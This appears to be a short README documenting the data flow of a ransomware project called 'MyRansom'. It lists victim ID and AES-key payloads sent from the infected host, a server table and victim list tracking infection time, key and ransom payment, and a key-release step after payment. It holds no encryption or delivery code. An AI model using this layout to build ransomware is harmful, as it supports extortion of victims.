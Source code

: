 # Args of MyRansom

## infected host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
        'inftime': time.time()
        'ransom': False,
        'aes_key': aes_key
    }
]
```

### paid

```python
aes_key = dec_key()
post_data = {
    'id': victim_id,
    'aes_key': aes_key
}
```

## Front-end
